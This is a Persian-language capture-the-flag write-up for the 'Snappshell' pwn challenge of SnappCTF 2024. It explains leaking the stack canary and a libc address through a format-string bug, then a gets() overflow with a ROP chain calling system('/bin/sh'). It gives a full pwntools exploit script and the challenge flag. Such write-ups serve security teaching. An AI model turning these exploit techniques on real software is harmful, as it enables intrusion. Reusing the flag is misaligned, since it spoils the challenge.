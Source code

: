 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - PWN
  - Exploit
  - Shell
  - ROP
  - Pwntools
  - Canary
  - BufferOverflow
---
```

# Snappshell

<center>
![challenge](Snappshell-1.png)
</center>

در این چالش با یک فایل فشرده رو به رو هستیم که شامل یک فایل باینری و یک Dockerfile هست.
در ابتدا از طریق دستور checksec با چنین تصویر ترسناکی رو به رو میشیم! :) 

<center>
![Snappshell-2.png](Snappshell-2.png)
</center>

بعد از اینکه فایل باینری رو با gdb و ghidra بررسی میکنیم متوجه میشیم که هیچ تابعی برای [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) کردن وجود نداره و همچنین فعال بودن [NX](https://en.wikipedia.org/wiki/NX_bit) متوجه میشیم که نیاز به شل گرفتن از برنامه هست ولی خب چطوری باید این کارو کرد؟!
برای اینکه به این هدفمون دست پیدا کنیم نیازه تا از تکنیک [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) برای دور زدن NX استفاده کنیم.
یکی از موانع سر راه همونطوری که توی عکس بالا هم پیداست فعال بودن یک مکانیسم امنیتی دیگه به اسم [Stack Canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/) هست.
برای اینکه یک قدم رو به جلو حرکت کنیم اول سعی میکنیم تا Canary رو دور بزنیم.
بعد از اینکه توابع به کار رفته توی برنامه رو دقیق تر با ghidra بررسی میکنیم چشممون به تابع printf ای میوفته (توی تابع echo برنامه، هایلاتش کردم توی تصویر زیر) که آسیب پذیری [Format String](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/) رو داره و احتمالا میتونیم از این طریق به مقدار cookie و... که توی استک موجود هستن دست پیدا کنیم.

<center>
![Snappshell-3.png](Snappshell-3.png)
</center>

بعد از کلی سر و کله زدن با این آسیب پذیری (و یا خودکار کردن روندش با یک کد پایتون ساده) به ی همچین ساختاری میرسیم.

`%31$p`

با فرستادن یک همچین استرینگی به سمت تابع echo برنامه ، خیلی راحت مقدار cookie رو به دست میاریم.

<center>
![Snappshell-4.png](Snappshell-4.png)
</center>

بعد از اینکه canary رو اوکی کردیم میریم سراغ قسمت سخت ماجرا یعنی پیدا کردن gadget های مناسب و استفاده ازشون برای ساخت زنجیره ROP امون و اینکه چطوری میشه این زنجیره رو به خورد برنامه داد. 

جواب ما توی تابع find_index هست. توی این تابع با یک gets رو به رو هستیم و به صورت دیفالت وقتی این تابع رو میبینیم باید یاد آسیب پذیری [BufferOverflow](https://ctf101.org/binary-exploitation/buffer-overflow/) بیوفتیم.

<center>
![Snappshell-5.png](Snappshell-5.png)
</center>


برای این قسمت که باید بدونین به چه gadget هایی نیاز دارید و دستتون بیاد حدودا که چطوری باید ROP رو اوکی کنید (و یکمم خودتون تلاش کنین) ارجاعتون میدم به لینک های زیر:  
[Bypassing Canary & PIE](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)

[ROP - Leaking LIBC address](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)

[ROP: bypass NX, ASLR, PIE and Canary](https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/)

از جمله مواردی که نیاز میشه اینجا بهش توجه کنین این هست برای استفاده از gadget ها احتمالا نیازتون میشه که از libc  درستی استفاده کنید. واسه اینکار باید به اون Dockerfile دقت میکردید و بعد از وصل شدن به docker سعی میکردید تا libc اصلی رو کپی کنید روی سیستم خودتون. دستور زیر میتونه کار رو دربیاره :

`. docker cp 4fd9a29bfcdc:/usr/lib/x86_64-linux-gnu/libc.so.6 `

بعد از این شما libc رو دارید و تنها کافیه تا برای پیدا کردن pop و sh و ret و system  از ابزار ROPgadget و یکمم pwntools استفاده کنید.  یک نمونه رو هم میتونید توی تصویر زیر ببینید: 
<center>
![Snappshell-6.png](Snappshell-6.png)
</center>

در نهایت بعد از همه این قضایا به exploit زیر میرسیم :
```python
from pwn import *

def index(s):
    p.sendlineafter(b'4- exit\n', b"3")
    p.sendline(s)
    return p.readline().rstrip()

def echo(s):
    p.sendlineafter(b'4- exit\n', b"1")
    p.sendlineafter(b'Enter your input\n', s.encode())
    return p.readline().strip()

#p = remote('91.107.177.236', 3117)
p = process('./shell_patched')
libc = ELF('./libc.so.6', checksec = False)

libc_add = echo(f'%33$p')

canary = p64(int(echo(f'%31$p'), 16))

libc_add = p64(int(libc_add, 16))

libc_add = int.from_bytes(libc_add, byteorder = 'little')

libc.address = (libc_add - 0x1e40) - 0x0000000000028000

pop = libc.address + 0x000000000002a3e5

ret = libc.address + 0x0000000000029139

final_payload = b'A' * 19 + b'SNAPP' + canary + b'\x00' * 8 +  p64(pop) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(ret) + p64(libc.sym[b'system'])

p.sendlineafter(b'4- exit\n', b"3")
p.sendline(final_payload)

p.interactive()
p.close()
```



??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Sn4Pp_sH3ll_leT_m3_!!nn}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)

	